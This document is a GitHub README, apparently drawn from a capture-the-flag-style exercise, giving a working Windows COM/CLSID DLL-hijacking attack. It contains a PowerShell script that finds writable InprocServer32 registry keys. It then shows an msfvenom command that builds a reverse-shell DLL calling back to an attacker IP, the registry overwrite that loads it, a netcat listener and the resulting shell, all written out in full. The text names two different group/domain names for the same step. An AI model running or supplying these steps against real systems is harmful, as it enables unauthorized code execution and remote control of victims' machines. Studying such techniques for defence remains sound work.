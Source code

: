 # windows-dll-hijack-clsid
Powershell script to find writable CLSIDs and then DLL Hijacking it

* ### Steps:
1) Let's first create a powershell script to find vulnerable CLSID keys, we'll call it as `find_writable_clsid.ps1`: 
```powershell
# Let's obtain all the actual user's groups first by their name, not SID:
$myIdentity = [System.Security.Principal.WindowsIdentity]::GetCurrent()
$myGroups = $myIdentity.Groups | ForEach-Object {
    try {
        $_.Translate([System.Security.Principal.NTAccount]).Value
    } catch {
        $_.Value
    }
}
$myGroups += $myIdentity.Name  # Add the user directly

# Let's iterate all CLSID keys:
$base = "HKLM:\Software\Classes\CLSID"
$clsids = Get-ChildItem -Path $base -ErrorAction SilentlyContinue

foreach ($clsid in $clsids) {
    $inprocPath = Join-Path $clsid.PSPath "InprocServer32"
    
    if (Test-Path $inprocPath) {
        try {
            $acl = Get-Acl $inprocPath
            foreach ($access in $acl.Access) {
                $identity = $access.IdentityReference.Value
                $rights = $access.RegistryRights

                # Does the actual user or group have WRITE PERMISSIONS (W or RW)?:
                if ($myGroups -contains $identity -and $rights -match "SetValue|WriteKey|FullControl") {
                    Write-Host "[PWN] Writable CLSID found!"
                    Write-Host "      Key: $inprocPath"
                    Write-Host "      Who: $identity"
                    Write-Host "      Rights: $rights`n"
                }
            }
        } catch {
            continue
        }
    }
}
```

2) We execute it and we find one vulnerable CLSID key (in this case the actual user belongs to `RUSTYKEY\Support` group, so we have RW rights, we have FullControl over it to write it):
```powershell
PS C:\users\public> .\find_writable_clsid.ps1

[PWN] Writable CLSID found!
      Key: Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32
      Who: RAGNAROK\Support
      Rights: FullControl
```

3) Once you find a vulnerable CLSID key, it's time to check where it comes from, in this case it says this below -> `(default)      : C:\Program Files\7-Zip\7-zip.dll`:
```powershell
PS C:\Users\Public> Get-ItemProperty -Path "HKLM:\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32"


(default)      : C:\Program Files\7-Zip\7-zip.dll
ThreadingModel : Apartment
PSPath         : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\Software\Classes\CLSID\{23170F69-40C1-278A-1000
                 -000100020000}\InprocServer32
PSParentPath   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\Software\Classes\CLSID\{23170F69-40C1-278A-1000
                 -000100020000}
PSChildName    : InprocServer32
PSDrive        : HKLM
PSProvider     : Microsoft.PowerShell.Core\Registry
```

4) Now let's create our malicious DLL as `hijack.dll` in our attack machine (then send it to the target machine with the technique of your choice):
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.10 LPORT=4444 -f dll -o hijack.dll
```   
   
5) Now let's replace the default value to our malicious DLL (this time we are using this route to upload the file `C:\Users\Public`, but it may be different):
```powershell
PS C:\users\public> Set-ItemProperty -Path "HKLM:\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" -Name "(default)" -Value "C:\Users\Public\hijack.dll"

# This won't show any output!!!
```

6)  Let's have our listener on in our attacking machine:
```bash
rlwrap nc -nlvp 4444
```

7) We can execute the malicious DLL with it: 
```powershell
PS C:\users\public> start-process explorer.exe
```

 You may also execute it in this case with the 7-zip file inside it's folder as we know this has the vulnerable CLSID key:
 ```powershell
 PS C:\program files\7-zip> .\7z.exe`
 ```
 
 8) We receive the shell in our attacking machine:
```bash
rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.10] from (UNKNOWN) [10.129.100.159] 49980
Microsoft Windows [Version 10.0.17763.7434]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows>powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows> whoami
whoami
ragnarok\mm.harper
PS C:\Windows> 
```


##### EXTRA: Here you can find a video to another DLL Hijacking technique using procmon.exe https://www.youtube.com/watch?v=XvxeUxOvKb0


> ### ⚠️ **DISCLAIMER**  
> ##### This project is intended for **educational and research purposes only**, to be used in **controlled environments** by **authorized penetration testers**.  
> ##### The creator assumes **no responsibility** for any misuse or damage caused by the use of this code.

